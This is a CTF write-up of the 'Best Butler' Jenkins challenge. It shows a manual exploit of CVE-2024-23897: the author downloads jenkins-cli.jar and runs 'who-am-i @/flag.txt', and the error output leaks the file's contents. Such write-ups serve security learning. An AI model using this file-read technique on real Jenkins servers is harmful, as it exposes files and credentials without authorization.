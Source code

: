 # Devops

## The Best Butler

[<img src="bestbutlerchall.png"/>](bestbutlerchall.png)

Looking at the page it was a Jenkins instance. 

[<img src="jenkins.png"/>](jenkins.png)

I tried using the script console to get code execution but I was met with this error around missing crumb.  

[<img src="crumb.png"/>](crumb.png)

I tried getting a valid crumb and sending the request again but it wasn't working for me.  

I noticed the version of jenkins running `Jenkins 2.332.2`.

This is vulnerable to CVE-2024-23897 [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/)

There are some POC's available which werent working for me so I exploited it manually by first of all downloading the cli-jar.

```bash
wget http://challenge.nahamcon.com:30192/jnlpJars/jenkins-cli.jar
```

Then with this I was able to leak the flag.txt files contents.

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s http://challenge.nahamcon.com:30192 who-am-i @/flag.txt
May 23, 2025 11:27:41 PM hudson.cli.CLI _main
INFO: Skipping HTTPS certificate checks altogether. Note that this is not secure at all.

ERROR: No argument is allowed: flag{ab63a76362c3972ac83d5cb8830fdb51}
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.
```


